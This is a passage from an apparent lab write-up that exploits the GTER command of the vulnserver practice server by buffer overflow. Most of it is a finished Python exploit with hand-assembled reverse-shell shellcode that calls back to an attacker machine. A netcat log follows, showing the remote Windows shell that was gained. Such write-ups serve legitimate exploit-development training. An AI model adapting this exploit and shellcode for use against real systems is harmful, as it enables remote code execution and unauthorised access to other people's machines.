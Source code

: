 ![newstack](/img/gter-newstack.png)

We can see now that our stack will write above our shellcode and will execute correctly now. Let's update the PoC with the PUSH EAX, POP ESP instructions (\x50\x5c) and test.

### Final Exploit

```python
#!/usr/bin/python

import socket

host = '192.168.47.132'
port = 9999


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)


# 625011AF
jmp_esp = "\xaf\x11\x50\x62"

# max short negative JMP
short_jmp = "\xeb\x80"

revshell  = "\x50\x5c\x31\xc0\x50\x50\x50\x31\xdb\xb3\x06\x53\x40\x50\x40\x50\xbb\x30\x97\x4e\x75\x31\xc0\xff" 
revshell += "\xd3\x96\x68\xc0\xa8\x2f\x80\x66\x68\x11\x5c\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2\x6a\x10\x52\x56\xbb\xe0" 
revshell += "\x5e\x4e\x75\xff\xd3\xba\x63\x63\x6d\x64\xc1\xea\x08\x52\x89\xe1\x31\xd2\x83\xec\x10\x89\xe3\x56\x56\x56\x52" 
revshell += "\x52\x31\xc0\x40\xc1\xc0\x08\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x31\xc0\x04\x2c\x50\x89\xe0\x53"
revshell += "\x50\x52\x52\x52\x31\xc0\x40\x50\x52\x52\x51\x52\xbb\x30\x66\xf3\x74\xff\xd3"


crash = "\x90" * 29 + revshell + jmp_esp + short_jmp + "\x43" * 500

buffer = "GTER "
buffer += crash
buffer += "\r\n"

s.connect((host, port))
s.send(buffer)
s.recv(1024)
s.close()

```

```
root@kali:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.47.128] from (UNKNOWN) [192.168.47.132] 49853
Microsoft Windows [Version 10.0.17134.165]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\admin\Desktop\vulnserver>whoami
whoami
desktop-ofau55f\admin

C:\Users\admin\Desktop\vulnserver>
```
